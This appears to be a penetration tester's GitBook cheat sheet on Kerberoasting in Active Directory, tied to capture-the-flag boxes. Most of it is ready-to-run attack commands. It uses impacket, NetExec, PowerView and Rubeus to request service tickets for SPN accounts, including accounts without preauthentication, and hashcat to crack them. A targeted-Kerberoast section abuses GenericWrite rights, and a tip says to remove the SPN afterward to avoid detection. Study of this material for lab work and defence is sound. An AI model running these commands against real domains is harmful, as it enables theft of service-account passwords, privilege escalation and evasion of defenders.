 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Kerberoasting

## Concept

{% hint style="info" %}
Typically, **Kerberoasting happens after compromising a domain user**. However, according to [new research](https://www.semperis.com/blog/new-attack-paths-as-requested-sts/), it is possible to **perform this attack with an account susceptible to** [**ASREPRoast**](as-reproasting.md)! For an example of this attack vector check [Rebound](../../../boxes/insane/rebound.md#kerberoasting).
{% endhint %}

**Kerberoasting** is an attack on the **Service Ticket (ST)** and **Service Principal Names (SPNs)**. [SPNs](../recon.md#spns) are unique IDs that Kerberos uses to map a service instance, for example MySQL, to a service sign-in account, such as `svc_mysql`, in whose, often privileged, context the service is running. The ST is encrypted with the service's account NTLM hash, so it can potentially be cracked. **Any domain user can request a ST from the DC for any SPN account**.

> _Accounts like `krbtgt`, **computer accounts**, and **(g)MSAs** are usually resistant due to complex, long passwords._

<figure><img src="../../../.gitbook/assets/kerberoasting_process (1).png" alt=""><figcaption><p>Figure 1: The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

## Attack

> _For an example of Kerberoasting check_ [_Sizzle_](https://x7331.gitbook.io/boxes/boxes/insane/sizzle#path-to-victory) _(Rubeus) and_ [_Active_](https://x7331.gitbook.io/boxes/boxes/easy/active#eop-via-kerberoasting) _(NetExec)._

{% tabs %}
{% tab title="Linux" %}
Check if an account has an SPN:

```bash
# Confirm that the target account has SPN
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

If time sync errors occur, i.e., `KRB_AP_ERR_SKEW(Clock skew too great)`:

```bash
sudo ntpdate <dc-ip>
```

Kerberoast the target account:

{% code overflow="wrap" %}
```bash
# Kerberoast the target account with NetExec
nxc ldap 192.168.0.104 -u user -p pass --kerberoasting output.txt

# Kerberoast the target account with impacket
impacket-GetUserSPNs -dc-ip 172.16.5.5 DOMAIN/user -request -outputfile spns.lst

# Kerberoast an account susceptible to ASREPRoasting with impacket
impacket-GetUserSPNs -no-preauth jjones -usersfile dom_users -dc-host 10.10.11.231 rebound.htb/ -outputfile kerb.txt
```
{% endcode %}

Crack the hashes:

{% code overflow="wrap" %}
```bash
sudo hashcat -m 13100 hashes.kerberoast rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}
{% endtab %}

{% tab title="Windows" %}
Check if an account has an SPN:

{% code overflow="wrap" %}
```powershell
# Enumerate Kerberoastable accounts with PowerView
Get-DomainUser * -SPN | select samaccountname

# Confirm that the target account has SPN with PowerView
Get-DomainUser 'sqldev' | Select serviceprincipalname

# Enumerate all user-linked SPNs and extract TGS-REP hashes with Rubeus
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```
{% endcode %}

Then we can proceed to Kerberoast the target account:

{% code overflow="wrap" %}
```powershell
# Kerberoast the enumerated accounts with PowerView
Get-DomainUser * -SPN -verbose |  Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_spns.csv -NoTypeInformation

# Kerberoast the target account with PowerView
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat

# Kerberoast the target account with Rubeus
.\Rubeus.exe kerberoast /creduser:domain\user1 /credpassword:pass /user:targetUser /outfile:hash.txt /format:hashcat /nowrap

# Kerberoast an account susceptible to ASREPRoasting with Rubeus
.\Rubeus.exe kerberoast /domain:<domain> /dc:<ip> /nopreauth:<user> /spns:<username-list>
```
{% endcode %}

Crack the hashes:

{% code overflow="wrap" %}
```bash
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}

Optionally, we can clear the SPNs of the target account:

```powershell
# Clear the SPNs of the target account
Set-DomainObject -Identity sqldev -Clear serviceprincipalname
```
{% endtab %}
{% endtabs %}

## Targeted Kerberoast

If we have `GenericWrite` or `GenericAll` on a user object, we can set an SPN on that user account and then extract and crack the TGS. This attack can be performed with [`targetedKerberoast.py`](https://github.com/ShutdownRepo/targetedKerberoast).&#x20;

{% hint style="warning" %}
Remember to **clean up** by removing the SPN afterward to avoid detection!
{% endhint %}

```bash
targetedKerberoast.py -v -d <domain_FQDN> -u <user> -p <pass>
```

## Resources

* An amazing demonstration of Kerberoasting ([video](https://www.youtube.com/watch?v=-3MxoxdzFNI))
* What `impacket-GetUserSPNs` does behind the scenes ([video](https://www.youtube.com/watch?v=xH5T9-m9QXw))
* Siegecast's lecture on Kerberoasting ([video](https://www.youtube.com/watch?v=Jaa2LmZaNeU))
* An in-depth adsecurity article about Kerberoasting ([article](https://adsecurity.org/?p=3458))
